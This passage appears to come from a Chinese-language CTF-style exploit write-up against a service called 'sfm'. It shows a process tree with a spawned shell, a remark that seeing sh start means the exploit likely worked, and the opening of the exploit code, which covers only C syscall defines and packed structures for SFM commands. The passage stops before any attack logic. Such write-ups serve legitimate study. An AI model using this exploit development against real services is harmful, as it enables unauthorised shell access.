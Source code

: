 ```php
├─bash───python3───bash─┬─python3───ba+
                        └─sh
```

注意，由于按照我们调试技巧在后端启动了`sfm`，所以此时的`sh`其实会执行失败，不过如果能看到sh启动的话，大概率exp就是执行成功了。  
这里给出相关代码:

```C
#include <stddef.h>
#include <stdint.h>
#include <sys/socket.h>
#define __NR_write 1
#define __NR_read 0
#define __NR_recvmsg 47
#define __NR_exit

typedef struct __attribute__((__packed__)) {
    unsigned int _reservered;
    unsigned short command_code;
    unsigned short pad_;
} SfmCommand;

typedef struct __attribute__((__packed__)) {
    SfmCommand cmd;
    unsigned short bank_index;
    unsigned short pad_;
    unsigned char data[1024];
} SfmIntegrityBankUpdate;

typedef struct __attribute__((__packed__)) {
    SfmCommand cmd;
    unsigned short flags;
} SfmEstablishSecureIo;

typedef struct __attribute__((__packed__)) {
    SfmCommand cmd;
    unsigned short alg_id;
} SfmAttestQuote;

typedef struct __attribute__((__packed__)) {
    unsigned short policy_type;
    unsigned char data[64];
} SfmAuthorizationPolicy;

typedef struct __attribute__((__packed__)) {
    unsigned short size;
    unsigned char data[1024];
} NvStorageRaw;

typedef struct __attribute__((__packed__)) {
    SfmCommand cmd;
    unsigned short object_type;
    SfmAuthorizationPolicy policy;
    NvStorageRaw nv;
} SfmCreateObject;

typedef struct __attribute__((__packed__)) {
    unsigned char country_code[2];
    unsigned char _padding[2];
    unsigned char owner_name[64];
    unsigned char device_name[16];
    unsigned char serial_number[8];
    unsigned int creation_date;
} OwnershipRecordRaw;
```